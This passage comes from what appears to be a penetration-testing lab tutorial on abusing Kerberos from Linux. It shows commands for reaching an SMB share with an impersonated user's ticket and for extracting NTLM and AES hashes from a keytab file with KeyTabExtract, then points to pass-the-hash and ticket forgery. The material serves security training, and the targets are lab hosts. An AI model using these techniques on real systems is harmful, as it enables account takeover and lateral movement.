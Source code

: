 ```shell-session
        renew until 10/07/22 17:16:11
```

We can attempt to access the shared folder `\\dc01\carlos` to confirm our access.

### **Connecting to SMB Share as Carlos**

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

{% hint style="info" %}
**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.
{% endhint %}

### Keytab Extract

The second method we will use to abuse Kerberos on Linux is extracting the secrets from a keytab file. We were able to impersonate Carlos using the account's tickets to read a shared folder in the domain, but if we want to gain access to his account on the Linux machine, we'll need his password.

We can attempt to crack the account's password by extracting the hashes from the keytab file. Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files, which may be used to authenticate Linux boxes to Kerberos. The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

### **Extracting Keytab Hashes with KeyTabExtract**

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

{% hint style="info" %}
**Note:** A keytab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.
{% endhint %}

